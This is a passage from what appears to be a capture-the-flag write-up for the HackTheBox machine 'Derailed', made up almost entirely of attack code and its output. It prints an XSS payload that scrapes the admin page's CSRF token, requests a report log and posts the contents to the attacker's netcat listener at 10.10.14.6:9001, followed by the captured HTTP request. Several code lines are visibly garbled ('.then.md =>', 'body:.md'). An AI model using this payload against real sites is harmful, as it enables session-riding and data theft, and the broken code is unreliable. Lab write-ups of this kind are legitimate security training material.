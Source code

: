 ### File Read over XSS

#### Read report_19_07_2023.log

I'll craft a payload that will try to fetch the log file (the intended
behaviour) over the XSS.



    fetch('http://derailed.htb:3000/administration')
      .then(resp => resp.text())
      .then.md => {
        let page = new DOMParser().parseFromString.md, "text.md");
        let token = page.getElementById("authenticity_token").value;
        console.log(token);
        fetch('http://derailed.htb:3000/administration/reports', {
          method: "POST",
          headers: {
            "Content-Type": "application/x-www-form-urlencoded",
          },
          body: "authenticity_token=" + token + "&report_log=report_19_07_2023.log",
        })
        .then(resp => resp.text())
        .then.md => {
          console.log.md);
          fetch('http://10.10.14.6:9001/', {
            method: "POST",
            body:.md,
          })
        });
      })



This will read the `/administration` page, and get the token from it.
Then it will send a POST to `/administration/reports` requesting the log
file. The result will be sent back to me in a POST. After saving this,
I'll submit the report again, and the file hits my `nc` listening on
9001, with a log file showing the id of the note and the complaint about
it:


    oxdf@hacky$ nc -lvnp 9001
    Listening on 0.0.0.0 9001                                           
    Connection received on 10.10.11.190 38260                           
    POST / HTTP/1.1                                                     
    Host: 10.10.14.6:9001
    Connection: keep-alive                                              
    Content-Length: 402                                                 
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36            
    Content-Type: text/plain;charset=UTF-8                              
    Accept: */*                                                         
    Origin: http://derailed.htb:3000                                    
    Referer: http://derailed.htb:3000/                                  
    Accept-Encoding: gzip, deflate                                      
    Accept-Language: en-US                                              
                   